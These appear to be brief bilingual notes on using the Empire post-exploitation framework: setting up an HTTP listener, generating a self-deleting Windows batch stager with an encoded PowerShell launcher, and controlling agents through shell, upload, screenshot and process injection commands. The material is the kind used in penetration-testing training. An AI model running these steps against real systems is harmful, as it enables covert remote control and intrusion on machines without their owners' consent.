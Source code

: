 ## basic usage
### listener
same to handler

```bash
//listeners
uselistener http
info
set Host 10.11.0.4
execute
back
```

### stager
same to payload
生成可执行文件、命令等；
如，windows 生成bat文件，文件执行powershell命令，执行代码base64编码
```bash
//stager
usestager windows/launcher_bat
info
set Listener http
execute

kali@kali:/opt/Empire$ cat /tmp/launcher.bat
@echo off
start /b powershell -noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBlAHIAcwBp...
start /b "" cmd /c del "%~f0"&exit /b
```

### agent
same to msf session
> * 支持execute commands 以及 和系统交互
> * Once the agent is operational on the target, it will set up an AES-encrypted communication channel with listener using the data portion of the HTTP GET/POST requests
> * help查看帮助，常用upload，download，secreenshot，shell，psinject
> * mannually switch to newly agent after inject/migrate

```bash
//agent
agents
interact S2Y5XW1L
sysinfo   //screenshot,upload,download,shell,spawn
help

//migrate
ps 
psinject http 3568
agents
interact DWZ49BAP
```
